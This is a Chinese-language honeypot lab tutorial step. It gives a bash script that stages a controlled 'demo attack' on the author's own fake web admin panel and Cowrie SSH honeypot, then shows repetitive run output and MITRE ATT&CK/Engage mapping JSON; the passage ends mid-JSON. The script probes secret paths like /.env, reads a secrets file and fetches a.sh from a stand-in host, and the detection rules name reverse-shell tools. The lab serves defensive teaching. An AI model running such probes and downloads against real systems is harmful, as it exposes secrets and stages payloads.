

# Phase B2：建立固定 Demo 攻擊流程
目標是讓你每次展示時，都能產生一組可預期的事件：
```
1. Fake Web Admin 被存取
2. 攻擊者嘗試登入
3. Honeycredential 被提交或使用
4. SSH / Cowrie 收到登入嘗試
5. Honeyfile 被存取
6. Detection rules 觸發
7. ATT&CK coverage 更新
8. Engage coverage 更新
9. Dashboard 顯示完整故事線
```
### 建議建立一個 demo script：
- 執行：
```
cat > /opt/deception-lab/scripts/demo_attack.sh <<'EOF'
#!/usr/bin/env bash
set -euo pipefail

# ============================================================
# Deception Lab Controlled Demo Attack Script
# ============================================================
# Purpose:
#   Generate a repeatable, controlled demo sequence for:
#   - Fake Web Admin access
#   - Web honeycredential submission
#   - Web honeyfile / scanner-like probes
#   - Cowrie SSH login attempt
#   - Parser refresh
#   - MITRE ATT&CK / Engage mapping refresh
#   - Report generation
#
# Usage:
#   /opt/deception-lab/scripts/demo_attack.sh 127.0.0.1
#   /opt/deception-lab/scripts/demo_attack.sh 192.168.1.164
# ============================================================

TARGET_IP="${1:-127.0.0.1}"
LAB_DIR="/opt/deception-lab"

WEB_PORT="8080"
SSH_PORT="2222"
DASHBOARD_PORT="8501"

WEB_USER="admin"
WEB_PASS="Spring2026!"

SSH_USER="admin"
SSH_PASS="Spring2026!"

echo "============================================================"
echo " Deception Lab Controlled Demo Attack"
echo "============================================================"
echo "[*] Target IP:        ${TARGET_IP}"
echo "[*] Fake Web Admin:   http://${TARGET_IP}:${WEB_PORT}"
echo "[*] Cowrie SSH Port:  ${SSH_PORT}"
echo "[*] Dashboard:        http://${TARGET_IP}:${DASHBOARD_PORT}"
echo "============================================================"
echo

cd "${LAB_DIR}"

echo "[0] Pre-flight checks"

if ! command -v curl >/dev/null 2>&1; then
  echo "[ERROR] curl is not installed."
  exit 1
fi

if ! command -v sshpass >/dev/null 2>&1; then
  echo "[WARN] sshpass is not installed. SSH demo step will be skipped."
  echo "[WARN] Install it with: sudo apt install -y sshpass"
  HAS_SSHPASS="no"
else
  HAS_SSHPASS="yes"
fi

if [ ! -x "${LAB_DIR}/scripts/run_parser.sh" ]; then
  echo "[ERROR] Missing executable: ${LAB_DIR}/scripts/run_parser.sh"
  echo "        Run: chmod +x ${LAB_DIR}/scripts/run_parser.sh"
  exit 1
fi

if [ ! -x "${LAB_DIR}/scripts/run_mapping.sh" ]; then
  echo "[ERROR] Missing executable: ${LAB_DIR}/scripts/run_mapping.sh"
  echo "        Run: chmod +x ${LAB_DIR}/scripts/run_mapping.sh"
  exit 1
fi

if [ ! -x "${LAB_DIR}/scripts/generate_report.sh" ]; then
  echo "[ERROR] Missing executable: ${LAB_DIR}/scripts/generate_report.sh"
  echo "        Run: chmod +x ${LAB_DIR}/scripts/generate_report.sh"
  exit 1
fi

echo "[+] Pre-flight checks completed."
echo

echo "[1] Access fake web admin"
curl -s -o /dev/null -w "[+] GET / -> HTTP %{http_code}\n" \
  "http://${TARGET_IP}:${WEB_PORT}/" || true

curl -s -o /dev/null -w "[+] GET /login -> HTTP %{http_code}\n" \
  "http://${TARGET_IP}:${WEB_PORT}/login" || true

echo

echo "[2] Submit fake login attempt / honeycredential"
curl -s -o /dev/null -w "[+] POST /login admin credential -> HTTP %{http_code}\n" \
  -X POST "http://${TARGET_IP}:${WEB_PORT}/login" \
  -d "username=${WEB_USER}" \
  -d "password=${WEB_PASS}" || true

echo

echo "[3] Touch honeyfile-like and scanner-like paths"
WEB_PATHS=(
  "/backup.zip"
  "/secrets.txt"
  "/.env"
  "/admin"
  "/wp-admin"
  "/phpmyadmin"
  "/server-status"
  "/actuator/env"
)

for path in "${WEB_PATHS[@]}"; do
  curl -s -o /dev/null -w "[+] GET ${path} -> HTTP %{http_code}\n" \
    "http://${TARGET_IP}:${WEB_PORT}${path}" || true
done

echo

echo "[4] Trigger controlled Cowrie SSH login attempt"

if [ "${HAS_SSHPASS}" = "yes" ]; then
  sshpass -p "${SSH_PASS}" ssh \
    -o StrictHostKeyChecking=no \
    -o UserKnownHostsFile=/dev/null \
    -o ConnectTimeout=5 \
    -p "${SSH_PORT}" \
    "${SSH_USER}@${TARGET_IP}" \
    "whoami; pwd; ls; cat /home/admin/secrets.txt; wget http://192.0.2.123/a.sh; exit" || true

  echo "[+] SSH attempt completed."
  echo "[i] Permission denied is acceptable if Cowrie records failed login behavior."
else
  echo "[SKIP] SSH step skipped because sshpass is not installed."
fi

echo

echo "[5] Regenerate parser/report outputs"
cd "${LAB_DIR}"

echo "[+] Running parser..."
./scripts/run_parser.sh

echo

echo "[+] Running MITRE mapping..."
./scripts/run_mapping.sh

echo

echo "[+] Generating final reports..."
./scripts/generate_report.sh

echo

echo "[6] Quick verification"
echo "[+] Event files:"
ls -lh "${LAB_DIR}/data/events/" || true

echo

if [ -f "${LAB_DIR}/data/events/events_summary.json" ]; then
  echo "[+] Current event summary:"
  cat "${LAB_DIR}/data/events/events_summary.json"
  echo
fi

echo
echo "============================================================"
echo "[DONE] Demo attack flow completed."
echo "============================================================"
echo "[+] Refresh Streamlit Dashboard:"
echo "    http://${TARGET_IP}:${DASHBOARD_PORT}"
echo
echo "[+] Key output files:"
echo "    ${LAB_DIR}/data/events/events.jsonl"
echo "    ${LAB_DIR}/data/events/detections.jsonl"
echo "    ${LAB_DIR}/data/events/events_summary.json"
echo "    ${LAB_DIR}/data/events/mapping_summary.json"
echo "    ${LAB_DIR}/data/events/attack_coverage.json"
echo "    ${LAB_DIR}/data/events/engage_coverage.json"
echo "    ${LAB_DIR}/reports/report.md"
echo "    ${LAB_DIR}/reports/report.json"
echo "    ${LAB_DIR}/reports/timeline.md"
echo "============================================================"
EOF
```
- 設定可執行：
```
chmod +x /opt/deception-lab/scripts/demo_attack.sh
```
- 安裝 sshpass：
```
sudo apt update
sudo apt install -y sshpass
```
- 建立並執行：
```
/opt/deception-lab/scripts/demo_attack.sh 127.0.0.1

------------------------------------------------------------------
# 執行結果：
lss@lss:/opt/deception-lab $ /opt/deception-lab/scripts/demo_attack.sh 127.0.0.1
============================================================
 Deception Lab Controlled Demo Attack
============================================================
[*] Target IP:        127.0.0.1
[*] Fake Web Admin:   http://127.0.0.1:8080
[*] Cowrie SSH Port:  2222
[*] Dashboard:        http://127.0.0.1:8501
============================================================

[0] Pre-flight checks
[+] Pre-flight checks completed.

[1] Access fake web admin
[+] GET / -> HTTP 302
[+] GET /login -> HTTP 200

[2] Submit fake login attempt / honeycredential
[+] POST /login admin credential -> HTTP 200

[3] Touch honeyfile-like and scanner-like paths
[+] GET /backup.zip -> HTTP 404
[+] GET /secrets.txt -> HTTP 404
[+] GET /.env -> HTTP 404
[+] GET /admin -> HTTP 302
[+] GET /wp-admin -> HTTP 404
[+] GET /phpmyadmin -> HTTP 404
[+] GET /server-status -> HTTP 404
[+] GET /actuator/env -> HTTP 404

[4] Trigger controlled Cowrie SSH login attempt
Warning: Permanently added '[127.0.0.1]:2222' (ED25519) to the list of known hosts.
Permission denied, please try again.
[+] SSH attempt completed.
[i] Permission denied is acceptable if Cowrie records failed login behavior.

[5] Regenerate parser/report outputs
[+] Running parser...
[+] Collecting latest logs...
[+] Collecting logs at UTC time: 20260525T194526Z
[+] Exporting Cowrie Docker logs...
[+] Collecting Fake Web access log...
[+] Collecting Fake Web auth log...
[+] Creating source manifest...
[+] Creating collection summary...
[+] Archiving collected logs...

[+] Collection completed.
[+] Current collected directory:
total 100K
drwxrwxr-x 2 lss lss 4.0K May 15 07:18 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss  372 May 26 03:45 collection_summary.txt
-rw-rw-r-- 1 lss lss  33K May 26 03:45 cowrie-docker.log
-rw-rw-r-- 1 lss lss  579 May 15 07:18 README.md
-rw-rw-r-- 1 lss lss  777 May 26 03:45 source_manifest.json
-rw-rw-r-- 1 lss lss  35K May 26 03:45 web_access.jsonl
-rw-rw-r-- 1 lss lss 7.5K May 26 03:45 web_auth.jsonl

[+] Summary:
Collection time UTC: 20260525T194526Z

Collected files:

- /opt/deception-lab/data/collected/cowrie-docker.log
  size: 36K
  lines: 254
- /opt/deception-lab/data/collected/web_access.jsonl
  size: 36K
  lines: 118
- /opt/deception-lab/data/collected/web_auth.jsonl
  size: 8.0K
  lines: 19
- /opt/deception-lab/data/collected/source_manifest.json
  size: 4.0K
  lines: 26

[+] Running event parser...
[+] Parsing completed.
[+] Events written to: /opt/deception-lab/data/events/events.jsonl
[+] Detections written to: /opt/deception-lab/data/events/detections.jsonl
[+] Summary written to: /opt/deception-lab/data/events/events_summary.json

Total events: 158
Total detections: 61

[+] Event output files:
total 124K
drwxrwxr-x 2 lss lss 4.0K May 21 07:53 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss 3.1K May 26 03:45 attack_coverage.json
-rw-rw-r-- 1 lss lss  39K May 26 03:45 detections.jsonl
-rw-rw-r-- 1 lss lss 2.3K May 26 03:45 engage_coverage.json
-rw-rw-r-- 1 lss lss  55K May 26 03:45 events.jsonl
-rw-rw-r-- 1 lss lss  758 May 26 03:45 events_summary.json
-rw-rw-r-- 1 lss lss 6.3K May 26 03:45 mapping_summary.json

[+] Event summary:
{
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 5,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 6,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 31
  },
  "detections_by_severity": {
    "high": 22,
    "medium": 39
  },
  "events_by_source": {
    "cowrie": 21,
    "fake-web": 137
  },
  "events_by_type": {
    "ssh_command": 8,
    "ssh_connection": 6,
    "ssh_login_failed": 5,
    "ssh_login_success": 1,
    "ssh_logout": 1,
    "web_honeyfile_access": 11,
    "web_login_attempt": 19,
    "web_request": 107
  },
  "generated_at": "2026-05-25T19:45:27.001464+00:00",
  "total_detections": 61,
  "total_events": 158
}
[+] Running MITRE mapping...
[+] Running parser first to refresh detections...
[+] Collecting latest logs...
[+] Collecting logs at UTC time: 20260525T194527Z
[+] Exporting Cowrie Docker logs...
[+] Collecting Fake Web access log...
[+] Collecting Fake Web auth log...
[+] Creating source manifest...
[+] Creating collection summary...
[+] Archiving collected logs...

[+] Collection completed.
[+] Current collected directory:
total 100K
drwxrwxr-x 2 lss lss 4.0K May 15 07:18 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss  372 May 26 03:45 collection_summary.txt
-rw-rw-r-- 1 lss lss  33K May 26 03:45 cowrie-docker.log
-rw-rw-r-- 1 lss lss  579 May 15 07:18 README.md
-rw-rw-r-- 1 lss lss  777 May 26 03:45 source_manifest.json
-rw-rw-r-- 1 lss lss  35K May 26 03:45 web_access.jsonl
-rw-rw-r-- 1 lss lss 7.5K May 26 03:45 web_auth.jsonl

[+] Summary:
Collection time UTC: 20260525T194527Z

Collected files:

- /opt/deception-lab/data/collected/cowrie-docker.log
  size: 36K
  lines: 254
- /opt/deception-lab/data/collected/web_access.jsonl
  size: 36K
  lines: 118
- /opt/deception-lab/data/collected/web_auth.jsonl
  size: 8.0K
  lines: 19
- /opt/deception-lab/data/collected/source_manifest.json
  size: 4.0K
  lines: 26

[+] Running event parser...
[+] Parsing completed.
[+] Events written to: /opt/deception-lab/data/events/events.jsonl
[+] Detections written to: /opt/deception-lab/data/events/detections.jsonl
[+] Summary written to: /opt/deception-lab/data/events/events_summary.json

Total events: 158
Total detections: 61

[+] Event output files:
total 124K
drwxrwxr-x 2 lss lss 4.0K May 21 07:53 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss 3.1K May 26 03:45 attack_coverage.json
-rw-rw-r-- 1 lss lss  39K May 26 03:45 detections.jsonl
-rw-rw-r-- 1 lss lss 2.3K May 26 03:45 engage_coverage.json
-rw-rw-r-- 1 lss lss  55K May 26 03:45 events.jsonl
-rw-rw-r-- 1 lss lss  758 May 26 03:45 events_summary.json
-rw-rw-r-- 1 lss lss 6.3K May 26 03:45 mapping_summary.json

[+] Event summary:
{
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 5,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 6,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 31
  },
  "detections_by_severity": {
    "high": 22,
    "medium": 39
  },
  "events_by_source": {
    "cowrie": 21,
    "fake-web": 137
  },
  "events_by_type": {
    "ssh_command": 8,
    "ssh_connection": 6,
    "ssh_login_failed": 5,
    "ssh_login_success": 1,
    "ssh_logout": 1,
    "web_honeyfile_access": 11,
    "web_login_attempt": 19,
    "web_request": 107
  },
  "generated_at": "2026-05-25T19:45:27.201862+00:00",
  "total_detections": 61,
  "total_events": 158
}
[+] Running MITRE mapping analyzer...
[+] Mapping analysis completed.
[+] Mapping summary: /opt/deception-lab/data/events/mapping_summary.json
[+] ATT&CK coverage: /opt/deception-lab/data/events/attack_coverage.json
[+] Engage coverage: /opt/deception-lab/data/events/engage_coverage.json

Defined detection rules: 8
Total detections: 61
ATT&CK mapping coverage: 100.0%
Engage mapping coverage: 100.0%

[+] Generating mapping Markdown report...
[+] Mapping markdown report written to: /opt/deception-lab/reports/mapping_report.md

[+] Mapping output files:
-rw-rw-r-- 1 lss lss 3.1K May 26 03:45 attack_coverage.json
-rw-rw-r-- 1 lss lss 2.3K May 26 03:45 engage_coverage.json
-rw-rw-r-- 1 lss lss 6.3K May 26 03:45 mapping_summary.json

[+] Mapping report:
-rw-rw-r-- 1 lss lss 2.4K May 26 03:45 /opt/deception-lab/reports/mapping_report.md

[+] Mapping summary:
{
  "attack_mapping_coverage": {
    "coverage_percent": 100.0,
    "mapped_defined_rules": 8,
    "total_defined_rules": 8,
    "triggered_without_mapping": [],
    "unmapped_defined_rules": []
  },
  "defined_detection_rules": 8,
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 5,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 6,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 31
  },
  "engage_mapping_coverage": {
    "coverage_percent": 100.0,
    "mapped_defined_rules": 8,
    "total_defined_rules": 8,
    "triggered_without_mapping": [],
    "unmapped_defined_rules": []
  },
  "generated_at": "2026-05-25T19:45:27.281204+00:00",
  "input_detections": "/opt/deception-lab/data/events/detections.jsonl",
  "per_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": {
      "attack": {
        "rationale": "The attacker used a credential intentionally planted in deception assets. This indicates exposure to unsecured credential material.\n",
        "tactic": "Credential Access",
        "technique": "Unsecured Credentials",
        "technique_id": "T1552"
      },
      "detections": 1,
      "engage": {
        "activity": "Credential Collection",
        "goal": "Elicit",
        "rationale": "A planted SSH credential caused the adversary to reveal credential-use behavior.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_HONEYFILE_ACCESS": {
      "attack": {
        "rationale": "Attempting to read honeyfiles such as secrets.txt or backup_config.ini indicates interest in local sensitive data.\n",
        "tactic": "Collection",
        "technique": "Data from Local System",
        "technique_id": "T1005"
      },
      "detections": 2,
      "engage": {
        "activity": "Reveal Adversary Intent",
        "goal": "Elicit",
        "rationale": "Honeyfile access attempts reveal interest in sensitive files, backup data, credentials, and local configuration.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_LOGIN_FAILED": {
      "attack": {
        "rationale": "Failed SSH authentication attempts against the honeypot indicate password guessing or brute-force behavior.\n",
        "tactic": "Credential Access",
        "technique": "Brute Force",
        "technique_id": "T1110"
      },
      "detections": 5,
      "engage": {
        "activity": "Expose Decoy Service",
        "goal": "Expose",
        "rationale": "The SSH honeypot exposes a fake login surface for observing authentication attempts.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_RECON_COMMAND": {
      "attack": {
        "rationale": "Commands such as whoami, pwd, ls, uname, ip addr, ifconfig, ps, and netstat indicate post-login discovery activity.\n",
        "related_techniques": [
          "T1033 System Owner/User Discovery",
          "T1016 System Network Configuration Discovery",
          "T1057 Process Discovery"
        ],
        "tactic": "Discovery",
        "technique": "System Information Discovery",
        "technique_id": "T1082"
      },
      "detections": 3,
      "engage": {
        "activity": "Collect Adversary Behavior",
        "goal": "Understand",
        "rationale": "Commands entered after login reveal adversary discovery interests and operating style.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_TOOL_TRANSFER_COMMAND": {
      "attack": {
        "rationale": "Commands such as wget, curl, ftp, scp, chmod, nc, or bash reverse shell patterns may indicate tool staging or payload transfer.\n",
        "tactic": "Command and Control",
        "technique": "Ingress Tool Transfer",
        "technique_id": "T1105"
      },
      "detections": 2,
      "engage": {
        "activity": "Adversary Direction",
        "goal": "Affect",
        "rationale": "A decoy shell can influence attacker behavior and redirect tool staging activity into a controlled observation environment.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_HONEYCREDENTIAL_USED": {
      "attack": {
        "rationale": "Submitting a planted credential to the fake web login panel indicates the adversary discovered and attempted to use unsecured credentials.\n",
        "tactic": "Credential Access",
        "technique": "Unsecured Credentials",
        "technique_id": "T1552"
      },
      "detections": 6,
      "engage": {
        "activity": "Credential Collection",
        "goal": "Elicit",
        "rationale": "Planted web credentials elicit credential reuse behavior against the fake admin panel.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_HONEYFILE_ACCESS": {
      "attack": {
        "rationale": "Downloading honeyfiles from the fake web panel indicates attempted collection of local or exposed files.\n",
        "tactic": "Collection",
        "technique": "Data from Local System",
        "technique_id": "T1005"
      },
      "detections": 11,
      "engage": {
        "activity": "Collect Adversary Behavior",
        "goal": "Understand",
        "rationale": "Honeyfile download behavior helps identify the attacker's collection interests.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_SCANNER_PROBE": {
      "attack": {
        "rationale": "Requests to paths such as /.env, /wp-admin, /phpmyadmin, or /admin indicate web probing or scanning behavior.\n",
        "tactic": "Reconnaissance",
        "technique": "Active Scanning",
        "technique_id": "T1595"
      },
      "detections": 31,
      "engage": {
        "activity": "Expose Decoy Service",
        "goal": "Expose",
        "rationale": "The fake web interface exposes probeable paths to observe scanner behavior.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    }
  },
  "total_detections": 61,
  "triggered_detection_rules": [
    "SSH_HONEYCREDENTIAL_LOGIN",
    "SSH_HONEYFILE_ACCESS",
    "SSH_LOGIN_FAILED",
    "SSH_RECON_COMMAND",
    "SSH_TOOL_TRANSFER_COMMAND",
    "WEB_HONEYCREDENTIAL_USED",
    "WEB_HONEYFILE_ACCESS",
    "WEB_SCANNER_PROBE"
  ]
}

[+] Generating final reports...
[+] Refreshing parser and mapping outputs...
[+] Running parser first to refresh detections...
[+] Collecting latest logs...
[+] Collecting logs at UTC time: 20260525T194527Z
[+] Exporting Cowrie Docker logs...
[+] Collecting Fake Web access log...
[+] Collecting Fake Web auth log...
[+] Creating source manifest...
[+] Creating collection summary...
[+] Archiving collected logs...

[+] Collection completed.
[+] Current collected directory:
total 100K
drwxrwxr-x 2 lss lss 4.0K May 15 07:18 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss  372 May 26 03:45 collection_summary.txt
-rw-rw-r-- 1 lss lss  33K May 26 03:45 cowrie-docker.log
-rw-rw-r-- 1 lss lss  579 May 15 07:18 README.md
-rw-rw-r-- 1 lss lss  777 May 26 03:45 source_manifest.json
-rw-rw-r-- 1 lss lss  35K May 26 03:45 web_access.jsonl
-rw-rw-r-- 1 lss lss 7.5K May 26 03:45 web_auth.jsonl

[+] Summary:
Collection time UTC: 20260525T194527Z

Collected files:

- /opt/deception-lab/data/collected/cowrie-docker.log
  size: 36K
  lines: 254
- /opt/deception-lab/data/collected/web_access.jsonl
  size: 36K
  lines: 118
- /opt/deception-lab/data/collected/web_auth.jsonl
  size: 8.0K
  lines: 19
- /opt/deception-lab/data/collected/source_manifest.json
  size: 4.0K
  lines: 26

[+] Running event parser...
[+] Parsing completed.
[+] Events written to: /opt/deception-lab/data/events/events.jsonl
[+] Detections written to: /opt/deception-lab/data/events/detections.jsonl
[+] Summary written to: /opt/deception-lab/data/events/events_summary.json

Total events: 158
Total detections: 61

[+] Event output files:
total 124K
drwxrwxr-x 2 lss lss 4.0K May 21 07:53 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss 3.1K May 26 03:45 attack_coverage.json
-rw-rw-r-- 1 lss lss  39K May 26 03:45 detections.jsonl
-rw-rw-r-- 1 lss lss 2.3K May 26 03:45 engage_coverage.json
-rw-rw-r-- 1 lss lss  55K May 26 03:45 events.jsonl
-rw-rw-r-- 1 lss lss  758 May 26 03:45 events_summary.json
-rw-rw-r-- 1 lss lss 6.3K May 26 03:45 mapping_summary.json

[+] Event summary:
{
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 5,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 6,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 31
  },
  "detections_by_severity": {
    "high": 22,
    "medium": 39
  },
  "events_by_source": {
    "cowrie": 21,
    "fake-web": 137
  },
  "events_by_type": {
    "ssh_command": 8,
    "ssh_connection": 6,
    "ssh_login_failed": 5,
    "ssh_login_success": 1,
    "ssh_logout": 1,
    "web_honeyfile_access": 11,
    "web_login_attempt": 19,
    "web_request": 107
  },
  "generated_at": "2026-05-25T19:45:27.518869+00:00",
  "total_detections": 61,
  "total_events": 158
}
[+] Running MITRE mapping analyzer...
[+] Mapping analysis completed.
[+] Mapping summary: /opt/deception-lab/data/events/mapping_summary.json
[+] ATT&CK coverage: /opt/deception-lab/data/events/attack_coverage.json
[+] Engage coverage: /opt/deception-lab/data/events/engage_coverage.json

Defined detection rules: 8
Total detections: 61
ATT&CK mapping coverage: 100.0%
Engage mapping coverage: 100.0%

[+] Generating mapping Markdown report...
[+] Mapping markdown report written to: /opt/deception-lab/reports/mapping_report.md

[+] Mapping output files:
-rw-rw-r-- 1 lss lss 3.1K May 26 03:45 attack_coverage.json
-rw-rw-r-- 1 lss lss 2.3K May 26 03:45 engage_coverage.json
-rw-rw-r-- 1 lss lss 6.3K May 26 03:45 mapping_summary.json

[+] Mapping report:
-rw-rw-r-- 1 lss lss 2.4K May 26 03:45 /opt/deception-lab/reports/mapping_report.md

[+] Mapping summary:
{
  "attack_mapping_coverage": {
    "coverage_percent": 100.0,
    "mapped_defined_rules": 8,
    "total_defined_rules": 8,
    "triggered_without_mapping": [],
    "unmapped_defined_rules": []
  },
  "defined_detection_rules": 8,
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 5,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 6,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 31
  },
  "engage_mapping_coverage": {
    "coverage_percent": 100.0,
    "mapped_defined_rules": 8,
    "total_defined_rules": 8,
    "triggered_without_mapping": [],
    "unmapped_defined_rules": []
  },
  "generated_at": "2026-05-25T19:45:27.596738+00:00",
  "input_detections": "/opt/deception-lab/data/events/detections.jsonl",
  "per_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": {
      "attack": {
        "rationale": "The attacker used a credential intentionally planted in deception assets. This indicates exposure to unsecured credential material.\n",
        "tactic": "Credential Access",
        "technique": "Unsecured Credentials",
        "technique_id": "T1552"
      },
      "detections": 1,
      "engage": {
        "activity": "Credential Collection",
        "goal": "Elicit",
        "rationale": "A planted SSH credential caused the adversary to reveal credential-use behavior.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_HONEYFILE_ACCESS": {
      "attack": {
        "rationale": "Attempting to read honeyfiles such as secrets.txt or backup_config.ini indicates interest in local sensitive data.\n",
        "tactic": "Collection",
        "technique": "Data from Local System",
        "technique_id": "T1005"
      },
      "detections": 2,
      "engage": {
        "activity": "Reveal Adversary Intent",
        "goal": "Elicit",
        "rationale": "Honeyfile access attempts reveal interest in sensitive files, backup data, credentials, and local configuration.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_LOGIN_FAILED": {
      "attack": {
        "rationale": "Failed SSH authentication attempts against the honeypot indicate password guessing or brute-force behavior.\n",
        "tactic": "Credential Access",
        "technique": "Brute Force",
        "technique_id": "T1110"
      },
      "detections": 5,
      "engage": {
        "activity": "Expose Decoy Service",
        "goal": "Expose",
        "rationale": "The SSH honeypot exposes a fake login surface for observing authentication attempts.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_RECON_COMMAND": {
      "attack": {
        "rationale": "Commands such as whoami, pwd, ls, uname, ip addr, ifconfig, ps, and netstat indicate post-login discovery activity.\n",
        "related_techniques": [
          "T1033 System Owner/User Discovery",
          "T1016 System Network Configuration Discovery",
          "T1057 Process Discovery"
        ],
        "tactic": "Discovery",
        "technique": "System Information Discovery",
        "technique_id": "T1082"
      },
      "detections": 3,
      "engage": {
        "activity": "Collect Adversary Behavior",
        "goal": "Understand",
        "rationale": "Commands entered after login reveal adversary discovery interests and operating style.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_TOOL_TRANSFER_COMMAND": {
      "attack": {
        "rationale": "Commands such as wget, curl, ftp, scp, chmod, nc, or bash reverse shell patterns may indicate tool staging or payload transfer.\n",
        "tactic": "Command and Control",
        "technique": "Ingress Tool Transfer",
        "technique_id": "T1105"
      },
      "detections": 2,
      "engage": {
        "activity": "Adversary Direction",
        "goal": "Affect",
        "rationale": "A decoy shell can influence attacker behavior and redirect tool staging activity into a controlled observation environment.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_HONEYCREDENTIAL_USED": {
      "attack": {
        "rationale": "Submitting a planted credential to the fake web login panel indicates the adversary discovered and attempted to use unsecured credentials.\n",
        "tactic": "Credential Access",
        "technique": "Unsecured Credentials",
        "technique_id": "T1552"
      },
      "detections": 6,
      "engage": {
        "activity": "Credential Collection",
        "goal": "Elicit",
        "rationale": "Planted web credentials elicit credential reuse behavior against the fake admin panel.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_HONEYFILE_ACCESS": {
      "attack": {
        "rationale": "Downloading honeyfiles from the fake web panel indicates attempted collection of local or exposed files.\n",
        "tactic": "Collection",
        "technique": "Data from Local System",
        "technique_id": "T1005"
      },
      "detections": 11,
      "engage": {
        "activity": "Collect Adversary Behavior",
        "goal": "Understand",
        "rationale": "Honeyfile download behavior helps identify the attacker's collection interests.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_SCANNER_PROBE": {
      "attack": {
        "rationale": "Requests to paths such as /.env, /wp-admin, /phpmyadmin, or /admin indicate web probing or scanning behavior.\n",
        "tactic": "Reconnaissance",
        "technique": "Active Scanning",
        "technique_id": "T1595"
      },
      "detections": 31,
      "engage": {
        "activity": "Expose Decoy Service",
        "goal": "Expose",
        "rationale": "The fake web interface exposes probeable paths to observe scanner behavior.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    }
  },
  "total_detections": 61,
  "triggered_detection_rules": [
    "SSH_HONEYCREDENTIAL_LOGIN",
